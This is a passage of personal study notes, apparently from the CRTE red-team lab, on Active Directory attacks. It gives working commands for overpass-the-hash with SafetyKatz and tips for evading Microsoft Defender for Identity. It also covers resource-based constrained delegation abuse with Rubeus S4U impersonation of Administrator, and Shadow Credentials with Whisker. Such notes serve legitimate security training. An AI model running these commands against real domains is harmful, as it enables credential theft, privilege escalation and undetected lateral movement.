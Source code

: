 Invoke-Command -Credential $creds -ScriptBlock {whoami} -Computer 0xd4y_machine</code></pre><ul id="5916fec1-96b8-4ebd-be41-cf4905e2aa46" class="bulleted-list"><li style="list-style-type:disc">use <code>opassth</code> with <code>SafetyKatz</code>  (instead of <code>pth</code>) and <code>aes256</code> instead of <code>ntlm</code> to prevent detections by MDI<ul id="35bebdd7-d9b8-4d1c-8d57-ce17b5bf124d" class="bulleted-list"><li style="list-style-type:circle">starts PowerShell session with logon type 9 just like <code>runas /netonly</code></li></ul><ul id="e965e502-9c7f-4c01-b055-9c7f099f3a95" class="bulleted-list"><li style="list-style-type:circle">note <code>opassth</code> is just the command specific to the modified Mimikatz version in the CRTE lab (modified version of <code>pth</code>)</li></ul></li></ul><h3 id="d84860b9-5724-418f-bc21-897ab1e6cc63" class="">GenericWrite on Computer</h3><ul id="35c3604e-1c68-4e9f-80ea-1a5c58464f8a" class="bulleted-list"><li style="list-style-type:disc">with <code>GenericWrite</code> or <code>GenericAll</code> on a computer, you can enable constrained delegation to laterally move</li></ul><p id="f5df9c64-c3ad-437a-9f8f-48c747290abb" class=""><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong>Enabling Constrained Delegation</strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></p><pre id="af244982-e126-4f59-a989-b776c46dfd69" class="code"><code># Enabled resource-based constrained delegation on target machine
Set-ADComputer -Identity target_machine -PrincipalsAllowedToDelegateToAccount owned_machine_account$

# Get hash of owned machine account
SafetyKatz &quot;sekurlsa::ekeys&quot; 

# Get TGS for HTTP service by impersonating Admin
Rubeus.exe s4u /user:owned_machine_account$ /aes256:&lt;owned_machine_account_hash&gt; /msdsspn:http/target_machine /impersonateuser:Administrator /ptt
</code></pre><h2 id="23468e89-60b6-4666-a8dc-d0d260610435" class="">Shadow Credentials</h2><ul id="ac077451-36db-4c68-b365-87fcaef709de" class="bulleted-list"><li style="list-style-type:disc">leverages <code>msDS-KeyCredentialLink</code> attribute to authenticate as another user or computer account<ul id="92e50f62-07e8-403b-8950-9143a08a2843" class="bulleted-list"><li style="list-style-type:circle">attribute used when Windows Hello for Business (WHfB) is configured</li></ul></li></ul><ul id="2c711d00-4bed-4c9e-b90e-2ec6306f364e" class="bulleted-list"><li style="list-style-type:disc"><code>msDS-KeyCredentialsLink</code> attribute contains raw public keys of certificate, and will still work even if the credentials of the user or computer account are modified</li></ul><ul id="c9ee32a6-3b70-4e15-86d8-6ce69b9aecc1" class="bulleted-list"><li style="list-style-type:disc">only Key Admins and Enterprise Key Admins, or users with <code>GenericAll</code> or <code>GenericWrite</code> are allowed to modify the <code>msDS-KeyCredentialsLink</code> attribute on a target user</li></ul><p id="f44df01c-e1cc-4036-b288-8beac954d060" class="">To abuse Shadow Credentials:</p><ol type="1" id="992b3f0b-7c8f-4d5c-8093-096ab535967e" class="numbered-list" start="1"><li>AD CS should be configured or a Key Trust should be present</li></ol><ol type="1" id="11d5833a-6935-4c2c-b2d3-742af88d4242" class="numbered-list" start="2"><li>PKINIT should be supported</li></ol><ol type="1" id="35605c41-ee8e-4135-a56b-1a8e42a8c054" class="numbered-list" start="3"><li>At least one DC with Windows Server 2016 or above</li></ol><ol type="1" id="0f39639d-a16a-433a-ad80-1ea39877a094" class="numbered-list" start="4"><li>Need <code>GenericWrite</code> or <code>GenericAll</code> permissions on target object</li></ol><p id="e4d2f918-384f-47ac-8a1d-93c52103f978" class=""><strong>Adding Shadow Credentials</strong></p><pre id="f31f4140-4cbe-4e07-b6a3-7a6f725c2e3f" class="code"><code># Add Shadow Credential on target object
Whisker.exe add /target:0xd4y_target_user
